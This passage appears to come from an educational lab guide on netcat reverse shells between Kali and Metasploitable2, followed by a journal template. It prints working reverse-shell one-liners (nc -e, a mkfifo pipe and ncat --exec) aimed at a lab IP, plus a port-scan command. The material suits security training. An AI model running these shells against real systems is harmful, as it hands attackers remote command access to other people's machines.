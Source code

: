 ## Lab 4: Reverse Shell (Ethical Use Only)
**Important:** Only run this in isolated, legal lab environments (e.g., intentionally vulnerable VMs you control). Reverse shells provide remote command access and are high-risk if used improperly.

**Simple Netcat reverse shell (if `-e` is supported):**

**On Kali (Listener):**
```bash
nc -lvp 4444
```

**On Metasploitable2 (Sender / target):**
```bash
nc 192.168.56.101 4444 -e /bin/bash
```

**If `-e` is NOT supported (common with netcat-openbsd), use a `mkfifo` workaround:**
```bash
# On the target (Metasploitable2)
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f
```

**Alternative with ncat (Nmap's ncat) which supports `--exec`:**
```bash
# On target with ncat available:
ncat 192.168.56.101 4444 --exec "/bin/bash" --keep-open
```

🔍 **Result:** Kali gets shell access to Metasploitable2 (in lab only).


---

## Journal / Logging Template
Keep a short journal for each lab run to document what you did and why.

```
Date: 2025-10-14
Lab: Lab 1 / Lab 2 / Lab 3 / Lab 4
Target IP: 192.168.56.102
Listener IP: 192.168.56.103
Ports used: 4444, 5555, ...
Commands executed:
- nc -z -v 192.168.56.102 1-1000
- nc -lvp 4444
- nc 192.168.56.102 4444
Notes / Observations:
- Netcat version: netcat-openbsd 1.10
- -e unsupported; used mkfifo workaround
Hashes:
- SHA256(file.txt) = <paste-hash-here>
```

---
